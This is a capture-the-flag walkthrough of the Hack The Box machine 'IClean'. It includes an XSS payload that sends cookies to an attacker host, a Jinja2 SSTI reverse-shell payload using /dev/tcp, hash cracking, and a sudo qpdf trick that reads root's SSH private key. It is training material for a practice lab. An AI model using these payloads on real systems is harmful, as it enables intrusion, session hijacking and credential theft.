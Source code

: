 # IClean

IClean is a medium machine on HTB.

## Enumeration

First we check the open port via **nmap**.

![nmap](./assets/images/nmap.png)


The ports 22, 80 are open.
Let's check the port 80 first. For that we need to add the **domain** to our **hosts** file.

```bash
echo "10.10.11.12   capiclean.htb" | sudo tee -a /etc/hosts
```
![website](./assets/images/website.png)


This is what you should see after browsing to the domain. It seems like a basic website. Let's perform some **directory research**.

![gobuster](./assets/images/gobuster.png)

Plenty of things here. There is a **login** page but we don't have any creditentials. A **dashboard** page which we can access if you are login. So we must find something so we can login and access the **dashboard** page. The **quote** page seem interesting.

![quote_page](./assets/images/quote_page.png)

And if we enter valid input into the form and we submit it, we have this message of confirmation :

![sendMessage_page](./assets/images/sendMessage_page.png)

It is explicitly said that the management team will see our message. So we can try if it's vulnerable to **XSS**. For that intercept the request of the quote form.

![intercept_quote_form](./assets/images/intercept_quote_form.png)

Let's try it on the `service` variable. And we will use this payload (it's already URL encoded, juste change the IP and the port) : `<img+src%3dx+onerror%3dfetch("http%3a//YOUR_IP%3aYOUR_PORT/"%2bdocument.cookie)%3b>`. And don't forget to launch your python server :
```bash
python3 -m http.server YOUR_PORT
```

![cookie_xss](./assets/images/cookie_xss.png)

And after some time you should receive the cookie ! Now we can go to the storage tab when you inspect the website and add a new cookie named `session` and with the value you just got.

![inspect_storage](./assets/images/inspect_storage.png)

## Foothold

Now we can access the dashboard page !

![dashboard](./assets/images/dashboard.png)

We can see that we can generate invoice. Let's fill the form with valid input and submit it. 

![invoice_code](./assets/images/invoice_code.png)

It give us a code. Let's keep it for now. The next things we can do is to generate a qr code.

![generate_qr](./assets/images/generate_qr.png)

And for that we need an invoice id! Great we have one! So let's paste the one we just got.

![qr_link](./assets/images/qr_link.png)

It give us a link and if we put the link in the form and submit it, this page is displayed to us :

![invoice](./assets/images/invoice.png)

Great now let's intercept the request with burpsuite.

![intercept_qr_code](./assets/images/intercept_qr_code.png)

Now let's send this to the Repeater of burpsuite so we can do some test.

![server](./assets/images/server.png)

So the server is powered by Python so it's surely Flask and Flask use Jinja2. Which open the possibility of a SSTI vulnerability. You can see [this](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/?source=post_page-----cfc46f351353--------------------------------) blog for complete explanation. And so we will use this payload to get a reverse shell (it's already URL encoded, just change YOUR_IP and YOUR_PORT) `{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("bash+-c+'exec+bash+-i+%26>/dev/tcp/YOUR_IP/YOUR_PORT+<%261'")|attr("read")()}}`. and put this in the `qr_link` variable in burpsuite. Don't forget to setup a netcat listener to.

## User flag

![revshell](./assets/images/revshell.png)

And we have a revshell ! As the user `www-data`. First stabilize the shell :

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
#CTRL + Z
stty raw -echo; fg
```


If we cat the `app.py` file in our directory we obtain a password for a database !

![cred_database](./assets/images/cred_database.png)

`iclean:pxCsmnGLckUb`, and so we can access the database with this command :

```bash
mysql -h localhost -u iclean -D capiclean -p
```
Inside the database we can find two hashes in the users tables !

![hash](./assets/images/hash.png)

So we can try to crack the hashes with `hashcat`. Paste the hash of the user `consuela` in a file and use this command :

```bash
hashcat -a 0 -m 1400 hash /usr/share/wordlists/rockyou.txt
```

Wait a little and hashcat as found the password : `simple and clean`. So we can try to login as consuela with this password.

![user_flag](./assets/images/user_flag.png)

## Root flag

If we type `sudo -l` we can see that we can use the command `/usr/bin/qpdf` as sudo. There is a vulnerability in `qpdf` that is we can attach file and display them after with the pdf we created. So we can attach the private key of root and login as root via ssh. First create a padf on your local machine.

```bash
convert -size 100x100 xc:white -annotate 0 'test' test.pdf
```

Launch a python server where the pdf is located and use this command on the remote machine to download the pdf file.

```bash
wget http://YOUR_IP:YOUR_PORT/test.pdf
```
After that use this command on the remote machine to attach the private key :

```bash
sudo /usr/bin/qpdf test.pdf --add-attachment /root/.ssh/id_rsa -- root_key.pdf
```

And this one to display the key : 

```bash
qpdf root_key.pdf --show-attachment=id_rsa
```

![id_rsa](./assets/images/id_rsa.png)

Copy paste it in a file on your local machine, give it the good right with `chmod 600` and login as root via shh.

![root_flag](./assets/images/root_flag.png)